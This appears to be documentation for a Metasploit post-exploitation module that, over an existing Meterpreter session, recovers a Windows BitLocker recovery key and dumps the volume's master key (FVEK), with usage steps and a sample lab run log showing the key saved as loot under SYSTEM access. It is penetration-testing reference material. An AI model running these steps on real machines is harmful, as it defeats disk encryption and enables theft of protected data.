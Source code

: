## Vulnerable Application

This module enumerates ways to decrypt bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/bitlocker_fvek`
  4. Do: `set SESSION <session id>`
  5. Do: `set DRIVE_LETTER <letter>`
  6. Do: `run`

## Options

  ```
  DRIVE_LETTER
  ```
  Dump informations from the DRIVE_LETTER encrypted with Bitlocker.

  ```
  RECOVERY_KEY
  ```
  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

  ```
  SESSION
  ```
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfuly opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfuly extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf5 post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : BITLOCKER-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
